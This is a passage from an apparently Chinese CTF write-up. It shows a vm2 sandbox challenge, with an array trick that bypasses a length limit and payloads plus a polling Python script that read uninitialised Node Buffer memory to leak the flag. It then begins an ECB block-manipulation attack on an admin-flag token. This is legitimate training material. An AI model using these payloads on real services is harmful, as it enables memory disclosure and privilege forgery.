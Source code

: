 ```js
});
```

首先定义变量flag，然后我们可以在沙箱里面执行任意的命令, 要get传递一个data参数，将它放在vm2创建的沙盒中运行，并且对传入的参数长度进行了限制，不超过12，这里可以用数组绕过, 那我们如何逃逸出去呢?

> 在较早一点的 node 版本中 (8.0 之前)，当 Buffer 的构造函数传入数字时, 会得到与数字长度一致的一个 Buffer，并且这个 Buffer 是未清零的。8.0 之后的版本可以通过另一个函数 Buffer.allocUnsafe(size) 来获得未清空的内存。低版本的node可以使用buffer()来查看内存，只要调用过的变量，都会存在内存中，那么我们可以构造paylaod读取内存

payload 1

```
?data[]=for (var step = 0; step < 100000; step++) {var buf = (new Buffer(100)).toString('ascii');if (buf.indexOf("hitcon{") !== -1) {break;}}buf;
```

超时了, 那我们直接通过Buffer()查看内存

```
?data=Buffer(500)
```

使用脚本查看

```python
import re
import requests
import time

url = "http://cb7f0286-649e-487a-945a-133669871e43.node3.buuoj.cn/?data=Buffer(500)"
while True:
  res = requests.get(url=url).text
  time.sleep(0.1)
  if 'flag{' in res:
    print(res)
    break
```

然后在里面找到 flag

## [BSidesCF2019]Mixer

ECB加密构造

本题输入得到如下的格式, 把它16位一组分割

```
{"first_name":"a
1.00000000000000
","last_name":"1
111","is_admin":
0}
```

得到的user是

```
fd91f5a0f503b2c35a7666a68d1d6bdc
4d01fcd1cac5e16f360015d161d0e909
66a7d78f6ac9954c53482a82ac880c62
697f6f5ba172c21afe9f9f608b70f31f
4ecc22edc3e128fba34ed70ee1c90390
```

